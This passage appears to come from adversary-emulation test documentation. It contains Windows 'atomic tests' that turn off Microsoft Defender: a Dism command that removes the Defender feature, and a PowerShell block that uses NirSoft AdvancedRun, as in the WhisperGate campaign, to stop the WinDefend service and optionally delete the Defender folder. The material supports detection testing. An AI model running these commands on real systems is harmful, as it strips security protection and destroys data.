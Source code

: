 **Supported Platforms:** Windows


**auto_generated_guid:** 871438ac-7d6e-432a-b27d-3e7db69faf58






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
Dism /online /Disable-Feature /FeatureName:Windows-Defender /Remove /NoRestart /quiet
```






<br/>
<br/>

## Atomic Test #28 - Disable Defender Using NirSoft AdvancedRun
Information on NirSoft AdvancedRun and its creators found here: http://www.nirsoft.net/utils/advanced_run.html
This Atomic will run AdvancedRun.exe with similar behavior identified during the WhisperGate campaign.
See https://medium.com/s2wblog/analysis-of-destructive-malware-whispergate-targeting-ukraine-9d5d158f19f3
Upon successful execution, AdvancedRun.exe will attempt to run and stop Defender, and optionally attempt to delete the Defender folder on disk.

**Supported Platforms:** Windows


**auto_generated_guid:** 81ce22fd-9612-4154-918e-8a1f285d214d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| AdvancedRun_Location | Path of Advanced Run executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;AdvancedRun.exe|
| delete_defender_folder | Set to 1 to also delete the Windows Defender folder | integer | 0|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Try {cmd /c "#{AdvancedRun_Location}" /EXEFilename "$env:systemroot\System32\sc.exe" /WindowState 0 /CommandLine "stop WinDefend" /StartDirectory "" /RunAs 8 /Run} Catch{}
if(#{delete_defender_folder}){
  $CommandToRun = rmdir "$env:programdata\Microsoft\Windows Defender" -Recurse
  Try {cmd /c "#{AdvancedRun_Location}" /EXEFilename "$env:systemroot\System32\WindowsPowershell\v1.0\powershell.exe" /WindowState 0 /CommandLine "$CommandToRun" /StartDirectory "" /RunAs 8 /Run} Catch{}
}
```
